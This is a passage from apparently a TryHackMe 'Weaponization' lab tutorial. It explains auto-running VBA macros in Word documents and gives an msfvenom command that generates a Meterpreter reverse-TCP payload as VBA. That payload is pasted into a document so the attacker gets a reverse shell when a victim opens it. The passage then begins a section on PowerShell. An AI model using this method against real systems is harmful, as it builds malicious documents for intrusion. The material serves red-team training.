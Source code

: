 Make sure to test your code before saving the document by using the running feature in the editor. Make sure to create `AutoOpen()` and `Document_open()` functions before saving the document. Once the code works, now save the file and try to open it again.

### 8.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

It is important to mention that we can combine VBAs with previously covered methods, such as HTAs and WSH. VBAs/macros by themselves do not inherently bypass any detections.

### Now let's create an in-memory meterpreter payload using the Metasploit framework to receive a reverse shell.

Note that we specify the payload as VBA to use it as a macro.

` msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba`

**Import to note** that one modification needs to be done to make this work.  The output will be working on an MS excel sheet. Therefore, change the `Workbook_Open()` to `Document_Open()` to make it suitable for MS word documents.

Now copy the output and save it into the macro editor of the MS word document, as we showed previously.

From the attacking machine, run the Metasploit framework and set the listener as follows:

### 9.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

Once the malicious MS word document is opened on the victim machine, we should receive a reverse shell.

-------------------------------------------------------

## PowerShell - PSH

PowerShell is an object-oriented programming language executed from the Dynamic Language Runtime (DLR) in .NET with some exceptions for legacy uses. Check out the TryHackMe room, [Hacking with PowerShell for more information about PowerShell](https://tryhackme.com/room/powershell).

Red teamers rely on PowerShell in performing various activities, including initial access, system enumerations, and many others. Let's start by creating a straightforward PowerShell script that prints "Welcome to the Weaponization Room!" as follows,

```
Write-Output "Welcome to the Weaponization Room!"
```
Save the file as `thm.ps1`. With the `Write-Output`, we print the message "Welcome to the Weaponization Room!" to the command prompt. Now let's run it and see the result.

`C:\Users\thm\Desktop>powershell -File thm.ps1`

### Execution Policy
